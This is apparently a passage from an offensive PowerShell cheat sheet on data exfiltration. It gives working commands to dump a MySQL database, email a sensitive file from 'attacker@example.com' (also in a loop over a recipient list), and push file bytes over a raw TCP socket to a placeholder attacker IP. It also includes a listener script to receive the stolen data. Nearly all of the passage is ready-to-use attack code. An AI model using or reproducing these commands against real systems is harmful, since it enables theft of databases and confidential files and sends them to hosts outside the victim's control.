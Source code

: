 Dump MySQL Database and Exfiltrate:

```
& "C:\Program Files\MySQL\MySQL Server <version>\bin\mysqldump.exe" -u <username> -p<password> <database_name> | Out-File -FilePath C:\Temp\mysql_dump.sql
```

# Data Exfiltration via Email

#### Send Email with PowerShell

Send Email with Attachment Using `Send-MailMessage`:

```
$SMTPServer = "<smtp_server>"
$SMTPFrom = "attacker@example.com"
$SMTPTo = "recipient@example.com"
$MessageSubject = "Exfiltrated Data"
$MessageBody = "Please find the attached file."
$Attachment = "C:\Temp\sensitivefile_copy.txt"
Send-MailMessage -From $SMTPFrom -To $SMTPTo -Subject $MessageSubject -Body $MessageBody -SmtpServer $SMTPServer -Attachments $Attachment
```

Automate Email Exfiltration:

```
$EmailList = Get-Content -Path "C:\Temp\email_list.txt"
foreach ($Email in $EmailList) {
    Send-MailMessage -From "attacker@example.com" -To $Email -Subject "Exfiltrated Data" -Body "Sensitive data attached." -Attachments "C:\Temp\sensitivefile_copy.txt" -SmtpServer "<smtp_server>"
}
```

# Data Exfiltration via Non-Standard Protocols

#### Netcat (Using PowerShell to Invoke)

Exfiltrate Data via Netcat:

```
$FilePath = "C:\Temp\sensitivefile_copy.txt"
$FileBytes = [System.IO.File]::ReadAllBytes($FilePath)
$TcpClient = New-Object Net.Sockets.TcpClient("<attack_ip>", <attack_port>)
$NetworkStream = $TcpClient.GetStream()
$NetworkStream.Write($FileBytes, 0, $FileBytes.Length)
$NetworkStream.Close()
$TcpClient.Close()
```

Receive Data on a Remote Server:

```
$TcpListener = New-Object Net.Sockets.TcpListener([Net.IPAddress]::Any, <local_port>)
$TcpListener.Start()
$Client = $TcpListener.AcceptTcpClient()
$NetworkStream = $Client.GetStream()
$Buffer = New-Object Byte[] 1024
$OutputFile = "C:\Temp\received_data.txt"
$FileStream = [System.IO.File]::Create($OutputFile)
while (($Read = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -ne 0) {
    $FileStream.Write($Buffer, 0, $Read)
}
$FileStream.Close()
$NetworkStream.Close()
$Client.Close()
$TcpListener.Stop()
```